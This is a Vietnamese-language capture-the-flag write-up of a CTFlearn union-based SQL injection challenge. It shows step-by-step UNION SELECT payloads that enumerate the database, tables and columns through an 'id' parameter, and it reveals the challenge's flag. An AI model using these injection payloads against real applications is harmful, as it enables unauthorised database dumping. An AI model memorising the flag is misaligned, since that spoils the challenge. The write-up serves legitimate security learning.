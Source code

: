 Đây là một thử thách về Union Based SQLI ở CTFLearn, truy cập vào https://web.ctflearn.com/web8 thì mình thấy có parameters "id" được truyền qua phương thức GET. Đây có thể là nơi để exploit.

## Xác định số cột trong database

Khi mình truyền tham số 1 vào parameters id thì có 3 phần đó là

```
Name: Saranac
Breed: Great Dane
Color: Black
```

Sử dụng một truy vấn UNION cơ bản

```
1 union select 1,2,3,4-- 
```
Ta xác định dược rằng có 4 columns ở đây
## Tìm tên database và tables name bằng GROUP_CONCAT function
Có thể tham khảo cheatsheet ở https://gist.github.com/nani1337/02c65b06d0dbcf3b9a684f5caf78ad15#file-0x01-basic-sqlinjection-cheat-sheet-L86

```
-1 UNION SELECT 1,2,database(),4 from information_schema.tables--
```
Ở đây ta có thể thấy database tên là **webeight**
![](https://raw.githubusercontent.com/K3v1ne/ctf-wu/main/Inj3ction-Time/Capture.PNG)

Có database name rồi bây giờ ta sẽ trích xuất tables trong database

**-1 union all select null,null,GROUP_CONCAT(table_name SEPARATOR 0x3c62723e),null from information_schema.tables WHERE TABLE_SCHEMA=DATABASE()**

Kết quả:

```
Name:
Breed:
Color: w0w_y0u_f0und_m3
webeight
```
## Trích xuất columns
Trích xuất tables rồi đến trích xuất columns, vẫn sử dụng function group_concat():

**-1 union all select null,null,GROUP_CONCAT(column_name SEPARATOR 0x3c62723e),null from information_schema.columns WHERE TABLE_NAME=0x7730775f7930755f6630756e645f6d33--**

**0x7730775f7930755f6630756e645f6d33 thực chất là dạng hex của string "w0w_y0u_f0und_m3"**

Kết quả:

```
Name:
Breed:
Color: f0und_m3
```
Bây giờ mình sẽ dump dữ liệu từ column **f0und_m3**

**-1 union all select null,null,GROUP_CONCAT(f0und_m3 SEPARATOR 0x3c62723e),null FROM webeight.w0w_y0u_f0und_m3**

Kết quả:

```
Name:
Breed:
Color: abctf{uni0n_1s_4_gr34t_c0mm4nd}
```
Flag: **abctf{uni0n_1s_4_gr34t_c0mm4nd}**
